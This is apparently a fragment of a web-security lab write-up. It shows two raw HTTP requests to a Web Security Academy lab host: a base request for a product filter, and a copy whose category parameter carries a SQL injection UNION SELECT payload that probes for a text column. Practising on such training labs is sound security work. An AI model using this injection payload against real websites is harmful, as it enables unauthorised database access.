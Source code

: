 pgSQL
##### Payload Request
GET /filter?category=Pets _' UNION SELECT NULL,'VP10Np',NULL--_ HTTP/2
Host: 0aa8004703dec10b820a15fe00a9002d.web-security-academy.net
Cookie: session=CRkDcoqOFh6prc5ueczBEABp4sj0Q97A
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa8004703dec10b820a15fe00a9002d.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Base request
GET /filter?category=Pets HTTP/2
Host: 0aa8004703dec10b820a15fe00a9002d.web-security-academy.net
Cookie: session=CRkDcoqOFh6prc5ueczBEABp4sj0Q97A
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa8004703dec10b820a15fe00a9002d.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i



